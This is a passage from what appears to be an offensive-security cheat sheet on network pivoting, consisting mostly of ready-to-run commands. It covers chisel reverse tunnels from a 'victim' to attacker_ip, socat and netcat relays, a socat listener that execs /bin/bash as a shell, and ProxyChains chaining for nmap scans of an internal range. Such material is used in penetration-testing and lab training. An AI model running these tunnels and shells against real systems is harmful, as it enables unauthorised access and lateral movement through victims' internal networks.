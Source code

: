 #### 💣 2. Connect from Victim

```bash
chisel client attacker_ip:8000 R:1080:socks
```

You now have a SOCKS proxy on 127.0.0.1:1080 to pivot deeper.

#### 🧩 3. Port Forward Example

```bash
chisel client attacker_ip:8000 R:8080:127.0.0.1:80
```

***

### V. 🔁 Socat & Netcat Pivoting

#### 🧰 Port Redirection with Socat

```bash
socat TCP-LISTEN:8080,fork TCP:10.10.0.5:80
```

#### 🔄 Reverse Shell Over HTTP

```bash
socat TCP-LISTEN:80,fork EXEC:/bin/bash
```

#### 🧠 Netcat Relay

```bash
mkfifo /tmp/f; nc -lvp 9001 < /tmp/f | nc 10.10.0.5 22 > /tmp/f
```

***

### VI. 🧰 ProxyChains + Chaining Tunnels

#### 🔹 ProxyChains Config Example

```
[ProxyList]
socks5 127.0.0.1 1080
socks5 127.0.0.1 1081
```

Use chained proxies:

```bash
proxychains nmap -sT 172.16.0.0/24
proxychains firefox http://172.16.0.10
```

***

### VII. 🔐 SSH Pivot through Multiple Hosts
